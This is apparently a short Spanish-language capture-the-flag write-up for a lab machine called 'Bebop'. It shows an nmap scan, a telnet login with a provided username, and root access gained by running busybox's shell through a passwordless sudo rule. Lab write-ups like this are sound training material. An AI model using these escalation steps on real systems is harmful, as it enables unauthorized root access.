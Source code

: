 # Bebop
## Initial Scan 
```
22/tcp open  ssh     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
|   256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
|_  256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
23/tcp open  telnet  BSD-derived telnetd
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```
## Enum ?
En la propia pagina nos dan un usuario valido "pilot"

## Exploit/foothold
Nos conectaremos via telnet con el usuario que nos dieron
```
pj@crow-foot:~$ telnet 10.10.1.225 23
Trying 10.10.1.225...
Connected to 10.10.1.225.
Escape character is '^]'.
login: pilot
```
## Privesc 
```
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
```
Ejecutamos lo siguiente :
```
sudo /usr/local/bin/busybox sh
```
Y ya tenemos shell como root

